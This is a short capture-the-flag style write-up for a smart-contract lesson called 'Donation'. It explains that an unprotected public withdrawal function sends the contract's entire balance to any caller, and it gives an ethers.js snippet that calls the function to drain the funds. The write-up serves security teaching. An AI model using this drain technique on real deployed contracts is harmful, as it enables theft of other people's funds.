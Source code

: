 # Donation

# Problem Statement
```
Donate to Bob Smith!
Bob Smith is a name you can trust! He stands for your values! He cares about what you care about!
The other candidates only cares about their own constituents. Boo!

Support Bob Smith and make a difference today!

Donate Ether
Chose your donation! Even a donation as small as 0.001 Ether helps the cause!

We have already collected...
0.05 ETH!
```

# Solution
Lets first look at all the `public`/`external` methods we can call. Notice the `Donation` contract's `withdrawDonationsFromTheSuckersWhoFellForIt()` has the following:
```
msg.sender.transfer(funds);
```
Bingo. This will send the entirety of the available ethers stored in the contract to the caller of the function. So using your favorite web3/ethers library call the method:
```
// using ethers.js
const contractAddress = // Donation contract address
const eoa = // Your address
const abi = [
  {
    "constant": false,
    "inputs": [],
    "name": "withdrawDonationsFromTheSuckersWhoFellForIt",
    "outputs": [],
    "payable": false,
    "stateMutability": "nonpayable",
    "type": "function"
  }
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
await contract.withdrawDonationsFromTheSuckersWhoFellForIt();
```

We've completed this lesson!

# Key Learnings
- Always poke around in a contract to see the available holes available to test. These are the `public`/`external` functions.
